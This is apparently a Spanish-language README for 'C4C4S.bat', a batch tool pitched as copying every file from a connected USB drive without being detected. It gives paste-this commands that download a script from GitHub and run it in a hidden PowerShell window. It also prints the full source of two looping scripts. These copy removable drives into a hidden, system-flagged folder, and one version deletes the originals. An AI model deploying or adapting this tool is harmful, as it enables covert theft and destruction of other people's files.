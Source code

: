 # C4C4S.bat / C4C4S.bat
<b>Esta es una herramienta para copiar todos los archivos de una memoria externa sin ser detectado.</b><br><br>
Escucha cuando se conecta un dispositivo de almacenamiento, despues copia los archivos del dispositivo conectado y tienes la opción de borrar los archivos despues de ser copiados.

<h2>Para copiar archivos de USB borrando los archivos de la memoria al finalizar, pega esto en una ventana del CMD</h2>
<pre>
powershell (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MANUEL1518/c4c4s/master/c4c4s.bat','c4s.bat'); powershell -windowstyle hidden -command cmd /c call c4s.bat;
</pre>

<h2>Para copiar archivos de USB sin modificar o borrar los archivos origen, pega esto en una ventana del CMD</h2>
<pre>
powershell (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MANUEL1518/c4c4s/master/c4c4.bat','c4.bat'); powershell -windowstyle hidden -command cmd /c call c4.bat;
</pre>

<h3>Para ver los archivos copiados...</h3>
<ul>
  <li>Abre una ventana del CMD.</li>
  <li>Ubicate en la carpeta: <b>C:\Users\%USERNAME%\Desktop\NCopy</b></li>
  <li>Abre la carpeta con: <b>start .</b></li>
</ul>

<h2>Codigo fuente</h2>

<h3>C4s :</h3>
<p><b>(Copia todos los archivos de memoria a "NCopy" en Escritorio y borra los originales)</b></p>
<pre>
@echo off
setlocal EnableDelayedExpansion
:try
IF EXIST "C:\Users\"%USERNAME%"\Desktop\NCopy" (
 SET l="E:\" "F:\" "G:\" "M:\" "N:\" "D:\" "H:\" "I:\" "L:\" "O:\" "S:\" "U:\"
 FOR %%a in (%l%) DO (
  IF EXIST %%a (
   XCOPY %%a "C:\Users\"%USERNAME%"\Desktop\NCopy" /s /i /y /q
   DEL %%a"*" /s /q
  )
 )
) ELSE (
 MKDIR "C:\Users\"%USERNAME%"\Desktop\NCopy"
 ATTRIB "C:\Users\"%USERNAME%"\Desktop\NCopy" +r +h +s
)
goto try
</pre>

<h3>C4 :</h3>
<p><b>(Copia todos los archivos de memoria a "NCopy" en Escritorio sin editar los archivos originales)</b></p>
<pre>
@echo off
setlocal EnableDelayedExpansion
:try
IF EXIST "C:\Users\"%USERNAME%"\Desktop\NCopy" (
 SET l="E:\" "F:\" "G:\" "M:\" "N:\" "D:\" "H:\" "I:\" "L:\" "O:\" "S:\" "U:\"
 FOR %%a in (%l%) DO (
  IF EXIST %%a (
   XCOPY %%a "C:\Users\"%USERNAME%"\Desktop\NCopy" /s /i /y /q
  )
 )
) ELSE (
 MKDIR "C:\Users\"%USERNAME%"\Desktop\NCopy"
 ATTRIB "C:\Users\"%USERNAME%"\Desktop\NCopy" +r +h +s
)
goto try
</pre>
